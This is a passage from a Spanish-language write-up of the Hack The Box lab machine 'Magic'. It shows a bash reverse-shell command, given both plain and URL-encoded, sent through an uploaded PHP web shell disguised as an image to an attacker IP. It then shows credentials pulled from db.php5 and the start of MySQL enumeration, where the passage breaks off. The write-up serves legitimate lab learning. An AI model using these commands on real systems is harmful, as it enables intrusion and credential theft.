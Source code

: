 Perfecto, podemos ejecutar comandos, ahora intentaremos obtener una Shell reversa. 

```bash
http://10.10.10.185/images/uploads/23.php.jpg?cmd=bash -c 'bash -i >& /dev/tcp/10.10.15.69/1233 0>&1'
```

Pero no hace nada, pasando la consulta a URL Encode, quedaría así:

```bash
http://10.10.10.185/images/uploads/23.php.jpg?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.15.69%2F1233%200%3E%261%27
```

![reverseshellwwwdata](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/reverseshellwwwdata.png)

Listo, estamos dentro :)

Lo siguiente (óptimo, necesario, preferible) es hacer tratamiento de la tty (entorno de entrada y salida de texto), ya que la Shell que tenemos no es completamente interactiva, acá me apoyo de s4vitar (aún no me aprendo los pasos :P)

* [Video de s4vitar explicando](https://www.youtube.com/watch?v=amKkzk-yP14&t=953).

Y ahora a enumerar... Hay varios archivos interesantes en `$ ls /var/www/Magic`.

![rsls_la](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/rsls_la.png)

El archivo `db.php5` tiene unas credenciales, que coinciden con el único usuario que hay en el sistema aparte de root: **theseus**.

![rsdbphp5](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/rsdbphp5.png)

Pero probando `$ su theseus` no es válida. Así que no va por ahí (por no leer bien el archivo, ya veremos por que), también está el archivo `index.php` el cual tiene la generación del banner inicial con todas las imágenes y además valida si alguna tiene algo relacionado con `php` o demás cosas extrañas.

Pero de los archivos el unico interesante es `db.php5` que claramente nos tiene que servir para algo ya que tiene credenciales.

Revisandolo bien (ahora si) se ve que la conexion la esta haciendo a una base de datos **MySQL**, pero el sistema al hacer `$ mysql` no lo reconoce, asi que primero intente hacer una conexion remota por medio de ssh, pero no servia, despues de buscar formas no encontre nada, asi que simplemente hice el auto completado normal cuando se quiere evitar escribir toda la instruccion o programa, entonces al hacer **`$ mysql + TAB TAB`**, me mostro varias opciones que se pueden usar mediante mysql.

![rsmysqltabtab](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/rsmysqltabtab.png)

Hay varias opciones, leyendo en internet sobre algunas interesantes encontré:

```bash
$ mysqlshow -u theseus -p 
```

Nos indicara informacion estructural de la base de datos. (La **-p** hará que la consola pida la pw, en este caso se usa la encontrada en `db.php5`) Siguiendo la estructura de la base de datos encontrada y su tabla, lo que se encontraría se mostraría así
